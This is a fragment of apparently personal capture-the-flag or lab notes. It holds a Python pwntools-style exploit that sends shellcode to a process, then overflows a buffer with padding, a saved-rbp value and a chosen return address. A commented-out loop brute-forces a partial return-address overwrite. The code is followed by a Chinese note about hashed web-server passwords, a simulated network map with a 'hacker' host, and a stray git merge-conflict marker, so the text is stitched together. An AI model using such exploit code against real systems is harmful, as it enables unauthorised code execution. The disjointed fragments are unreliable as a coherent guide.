 ```py
        shellcode = f.read(4096)
    rbp = 2**64-1  # Example value, replace with actual rbp address
    p = process(url)  # SIGSTOP to pause the process

    ret_addr =0x15870000
    p.send(shellcode)
    p.recvuntil(b"Press enter to continue!")
    p.sendline(b"")
    p.sendline(b"A"*0x30 +rbp.to_bytes(8,"little")+ret_addr.to_bytes(8,"little"))
    # print(p.recvall(1).decode())
    print(p.recvall(1).decode())
# 

#     rbp = 2**64-1  # Example value, replace with actual rbp address
#     for i in range(16): 
#         p = process(url)  # SIGSTOP to pause the process

#         ret_addr = 0xb8f + i * 0x1000
#         num_bits = 2
#         print(i)
#         p.send(b"\x00"+b"A"*0x6f +rbp.to_bytes(8,"little")+ret_addr.to_bytes(2,"little"))
#         print(p.recvall().decode())
# # 
```

# 

# web 服务器段存储的密码是hash mima

# 各个地址：
    network = Network("router", hosts={
        alice_host: "10.0.0.1",
        bob_host: "10.0.0.2",
        mallory_host: "10.0.0.3",
        sharon_host: "10.0.0.4",
        hacker_host: "10.0.0.5",
    })
>>>>>>> 38578d7 (...sth save)
